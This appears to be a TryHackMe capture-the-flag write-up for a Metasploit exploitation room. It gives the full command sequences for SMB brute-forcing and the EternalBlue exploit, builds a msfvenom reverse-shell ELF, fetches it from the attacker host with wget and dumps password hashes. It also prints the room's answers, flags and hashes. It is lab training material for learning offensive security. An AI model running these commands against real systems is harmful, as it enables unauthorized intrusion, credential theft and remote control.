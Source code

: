 ```yaml
---
msf:
  - "Metasploit: Exploitation"
Date: 12 April 2024
Platform: metasploit
Category: paid
Difficulty: easy
tags:
  - THM
Status: solve
IP: 10.10.186.136
---
```

# Metasploit: Exploitation 
---
description: Using Metasploit for scanning, vulnerability assessment and exploitation.
	[link of the room](https://tryhackme.com/room/metasploitexploitation)

## Task 2 Scanning

#### How many ports are open on the target system?

```bash
msfconsole
msf > search portscan
msf > use 5
msf > setg RHOSTS 10.10.186.136
msf > run
```
![](img/msfconsole.png)
![](img/portscan.png)

![](img/porscanresult.png)
#### Using the relevant scanner, what NetBIOS name can you see?

```bash
msf > search netbios
msf > use 2
msf > run
```
![](img/netbios.png)
![](img/netbios_result.png)
`ACME IT SUPPORT`
#### What is running on port 8000?

```bash
msf > search http_version
msf > show options
msf > use 0
msf > set RHOST 10.10.186.136
msf > set RPORT 8000
msf > run
```
![](img/search_http.png)
![](img/httpnmap.png)

`webfs/1.21`
#### What is the "penny" user's SMB password?

```bash
msf > search smb_login
msf > use 0
msf > set RHOSTS 10.10.186.136
msf > set SMBUser penny
msf > set PASS_FILE MetasploitWordlist-1632491116676.txt
msf > run
```
![](img/search_smb_login.png)
![](img/smb_login.png)
![](img/smbbruteforce.png)
`leo1234`
## Task 4 Vulnerability Scanning

#### Who wrote the module that allows us to check SMTP servers for open relay?

```bash
msf > search smtp relay
msf > use 0
msf > info
```
![](img/smtp_relay.png)
## Task 5 Exploitation

#### Exploit one of the critical vulnerabilities on the target VM

```bash
msfconsole
msf > search eternalblue 
msf > use 0
msf > set RHOSTS 10.10.5.180
msf > set LHOST 10.8.45.125
msf > run
```

![](img/search_eternalblue.png)
![](img/run_blue.png)
#### What is the content of the flag.txt file?

```bash
meterpreter > search -d C:\\ -f flag.txt
meterpreter > cat 'C:\Users\Jon\Documents\flag.txt'
```

`THM-5455554845`
#### What is the NTLM hash of the password of the user "pirate"?

```bash
hashdump
```

`8ce9a3ebd1647fcc5e04025019f4b875`
## Task 6 Msfvenom

#### Launch the VM attached to this task. The username is murphy, and the password is 1q2w3e4r. You can connect via SSH or launch this machine in the browser. Once on the terminal, type "sudo su" to get a root shell, this will make things easier.

```bash
ssh murphy@10.10.223.208
sudo -l
sudo su -
```
#### Create a meterpreter payload in the .elf format.
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```
![](img/shell.png)
#### Transfer it to the target machine

```bash
python -m http.server
```

![](img/share.png)
### Download malicious file from attacker side

~~~bash
wget http://10.8.45.125:8000/rev_shell.elf
~~~

![](img/transfer.png)
#### Get a meterpreter session on the target machine.
```bash
chmod +x shell.elf
./shell.elf
```
![](img/chmod.png)
```bash
msf > use exploit/multi/handler
msf > set payload linux/x86/meterpreter/reverse_tcp
msf > set LHOST 10.8.45.125
msf > run
```
![](img/metas.png)
#### Use a post exploitation module to dump hashes of other users on the system.

```bash
meterpreter > run post/linux/gather/hashdump
```

 
![](img/hashdump.png)
#### What is the other user's password hash?
```
$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0:18851
```
![](complete.png)
